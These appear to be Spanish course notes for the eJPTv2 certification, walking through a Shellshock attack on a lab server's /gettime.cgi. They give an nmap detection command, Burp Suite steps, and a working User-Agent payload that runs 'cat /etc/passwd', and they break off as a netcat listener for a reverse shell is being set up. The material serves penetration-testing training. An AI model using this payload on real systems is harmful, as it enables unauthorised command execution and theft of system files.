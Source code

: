 ![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2056.png)

Si intentamos ver el fichero .cgi en el navegador, simplemente nos aparece la cuenta atrás. Podemos utilizar esa URL como nuestro vector de entrada, en este caso: 

```bash
<IP_Target>/gettime.cgi
```

Sin embargo, debemos comprobar que el servidor es vulnerable a éste ataque, y lo podemos hacer con nmap:

```bash
nmap -sV <IP_Target> —script=http-shellshock —script-args “http-shellshock.uri=/gettime.cgi”
```

Si el sistema es vulnerable, vamos a explotarlo utilizando **Burp Suite**: 

- Modificamos el proxy del navegador para poder interceptar el tráfico con Burp Suite.
- Abrimos Burp Suite y en la pestaña Proxy, pulsamos “Intercept is on” y “Forward”.
- Recargamos en el navegador la URL al recurso .cgi.
- Insertar los caracteres especiales en el encabezado HTTP de User-Agent. Para esto, enviamos la petición al repetidor (click derecho / send to repeater). Luego sustituimos el contenido de User-Agent con el siguiente:

```bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

- Pulsamos “Send” y vemos la salida del comando “cat” en la sección Response, donde tenemos una lista con todos los usuarios. Ahora podemos introducir otros comandos en ese campo.
- A continuación, vamos a conseguir una shell. Para ello, nos ponemos en escucha con **netcat** en nuestra terminal.
